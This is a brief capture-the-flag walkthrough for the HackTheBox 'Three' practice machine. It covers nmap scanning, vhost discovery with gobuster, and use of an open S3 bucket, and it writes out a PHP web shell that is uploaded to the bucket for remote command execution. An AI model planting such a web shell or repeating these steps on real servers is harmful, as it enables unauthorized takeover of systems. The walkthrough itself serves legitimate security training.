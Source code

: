 ![[Three.png]]
#HackTheBox #Starting-point #VeryEasy 
## Scan Port
```bash
nmap -sV {TARGET IP} -T4
```
The result is `22/tcp` as ssh service, and `80/tcp` as http service
## Connect to Three
Open browser and paste the target ip. On navigation, you can see contact tab, open it. In email section copy the domain name `...htb`. If you open now on your browser, the result will appear is unable to connect. To be able to connect, you can change the host on `/etc/hosts`.
```bash
#terminal
	echo "{ip} {domain}" | sudo tee -a /etc/hosts
```
After that, let's try the domain
```bash
gobuster vhost -w {DOMAIN WORDLISTS} -u {TARGET DOMAIN NAME} --append-domain
```
the result is `s3.{TARGET DOMAIN NAME }`. if you open in your browser, its cant to connect, repeat the step above. If can connect, the result is `status: running`
```bash
aws configure {all fill with : temp}
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 ls
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 ls {...}
```
create new file (ex : shell.php), contains `<?php system($_GET("cmd")); ?>`. We can upload the file to `{TARGET DOMAIN NAME}` with syntax :
```bash
aws --endpoint=http://s3.{TARGET DOMAIN NAME} s3 cp shell.php s3://{TARGET DOMAIN NAME}
```
Let's check on the browser, `http://{TARGET DOMAIN NAME}/shell.php`